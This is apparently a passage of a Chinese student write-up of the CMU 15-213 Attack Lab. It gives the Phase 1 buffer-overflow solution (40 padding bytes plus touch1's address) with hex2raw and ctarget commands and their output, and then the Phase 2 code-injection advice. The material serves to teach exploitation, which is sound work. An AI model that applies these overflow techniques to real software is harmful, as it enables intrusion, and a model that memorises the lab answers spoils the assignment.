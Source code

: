 ```asm
  ..
  ..
  00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```



可以看到在`getbuf`函数里面开劈了0x28的栈空间，在此函数内需填充40个字符，紧接着再填充`touch1`的起始地址`c0 17 40`(小端法)，则答案为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

其中`00`可以被任何字符替代，将上述字符存入`attack.txt`并使用`hex2raw`转化，过程为：

```
zwen@zwen-virtual-machine:~/桌面/cmu-15213-labs/target1$ ./hex2raw <attack.txt> attack-raw.txt
zwen@zwen-virtual-machine:~/桌面/cmu-15213-labs/target1$ ./ctarget -q <attack-raw.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 

```

Level1完成



#### Phase2

目标：注入代码，使得`ctarget`执行`touch2`函数而不返回`test`

Advice：

+ You will want to position a byte representation of the address of your injected code in such a way that ret instruction at the end of the code for getbuf will transfer control to it.
+ Recall that the first argument to a function is passed in register %rdi.
+ Your injected code should set the register to your cookie, and then use a ret instruction to transfer control to the first instruction in touch2.
+ Do not attempt to use jmp or call instructions in your exploit code. The encodings of destination addresses for these instructions are difficult to formulate. Use ret instructions for all transfers of control, even when you are not returning from a call.
+ See the discussion in Appendix B on how to use tools to generate the byte-level representations of instruction sequences.
